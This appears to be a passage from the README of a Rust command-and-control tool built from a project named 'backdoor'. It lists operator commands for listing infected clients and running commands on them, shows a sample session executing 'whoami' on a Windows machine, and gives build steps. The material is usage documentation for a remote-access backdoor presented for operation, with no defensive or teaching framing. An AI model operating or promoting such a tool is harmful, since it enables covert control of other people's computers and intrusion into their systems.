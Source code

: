 ## 💻 Detailed Usage Examples

### **Server Commands**
```bash
C2> help                                    # Show available commands
C2> clients                                 # List all connected clients
C2> info <client_id>                        # Show detailed client information
C2> exec <client_id> <command>              # Execute command on specific client
C2> results <client_id>                     # Show command results for client
C2> clear <client_id>                       # Clear stored results for client
C2> exit                                    # Shutdown the server
```

### **Example Server Session**
```bash
🚀 C2 Server Starting...
📍 Binding to 0.0.0.0:4444
✅ Server listening on 0.0.0.0:4444

C2> clients
Connected Clients:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
🟢 ACTIVE | DESKTOP-ABC123_user_a1b2c3 | us***@DESKTOP-ABC123 | Windows 11 | Last seen: 2025-08-06 14:30:25 UTC

C2> exec DESKTOP-ABC123_user_a1b2c3 whoami
✅ Command queued for DESKTOP-ABC123_user_a1b2c3: whoami (ID: cmd-uuid-1234)

C2> results DESKTOP-ABC123_user_a1b2c3
Command Results for DESKTOP-ABC123_user_a1b2c3: (1 results)
1. [14:30:45] Command: cmd-uuid-1234
   Output: desktop-abc123\user
```

## 🚀 Quick Start

### **Prerequisites**
- Rust 1.70+ installed ([rustup.rs](https://rustup.rs/))
- Windows: Visual Studio Build Tools or MinGW
- Linux: GCC and libc development packages

### **Compilation**

#### **Windows:**
```batch
# Clone or extract the project
cd backdoor

# Run the build script
build.bat
```
